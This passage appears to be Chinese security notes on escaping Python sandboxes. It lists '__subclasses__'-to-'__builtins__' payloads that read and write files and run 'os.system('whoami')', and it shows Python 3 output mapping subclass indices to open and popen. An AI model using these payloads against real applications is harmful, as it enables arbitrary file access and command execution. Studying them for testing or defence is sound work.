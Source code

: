 通过 `__builtins__` 读写文件, 导入模块, 执行代码

```python
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('D:/test.txt').read()
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['open']('D:/test.txt').read()

''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('D:/a.txt','w').write('hello')
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['open']('D:/a.txt','w').write('hello')

''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')

 ''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").system("whoami")')
```

另外, Python2 可以直接通过 `__subclasses__()` 下的 file 读写文件

```python
''.__class__.__mro__[-1].__subclasses__()[40]('d:/test.txt').read()
```

### Python3

回显如下

```python
__builtins__ 100 <class '_frozen_importlib._ModuleLock'>
__builtins__ 101 <class '_frozen_importlib._DummyModuleLock'>
__builtins__ 102 <class '_frozen_importlib._ModuleLockManager'>
__builtins__ 103 <class '_frozen_importlib.ModuleSpec'>
__builtins__ 119 <class '_frozen_importlib_external.FileLoader'>
__builtins__ 120 <class '_frozen_importlib_external._NamespacePath'>
__builtins__ 121 <class '_frozen_importlib_external._NamespaceLoader'>
__builtins__ 123 <class '_frozen_importlib_external.FileFinder'>
open 125 <class 'codecs.IncrementalEncoder'>
__builtins__ 125 <class 'codecs.IncrementalEncoder'>
open 126 <class 'codecs.IncrementalDecoder'>
__builtins__ 126 <class 'codecs.IncrementalDecoder'>
open 127 <class 'codecs.StreamReaderWriter'>
__builtins__ 127 <class 'codecs.StreamReaderWriter'>
open 128 <class 'codecs.StreamRecoder'>
__builtins__ 128 <class 'codecs.StreamRecoder'>
open 143 <class 'os._wrap_close'>
popen 143 <class 'os._wrap_close'>
__builtins__ 143 <class 'os._wrap_close'>
open 144 <class 'os._AddedDllDirectory'>
popen 144 <class 'os._AddedDllDirectory'>
__builtins__ 144 <class 'os._AddedDllDirectory'>
__builtins__ 145 <class '_sitebuiltins.Quitter'>
__builtins__ 146 <class '_sitebuiltins._Printer'>
__builtins__ 148 <class 'types.DynamicClassAttribute'>
__builtins__ 149 <class 'types._GeneratorWrapper'>
__builtins__ 150 <class 'warnings.WarningMessage'>
__builtins__ 151 <class 'warnings.catch_warnings'>
__builtins__ 174 <class 'operator.attrgetter'>
__builtins__ 175 <class 'operator.itemgetter'>
__builtins__ 176 <class 'operator.methodcaller'>
__builtins__ 180 <class 'reprlib.Repr'>
__builtins__ 191 <class 'functools.partialmethod'>
__builtins__ 192 <class 'functools.singledispatchmethod'>
__builtins__ 193 <class 'functools.cached_property'>
__builtins__ 196 <class 'contextlib._GeneratorContextManagerBase'>
```
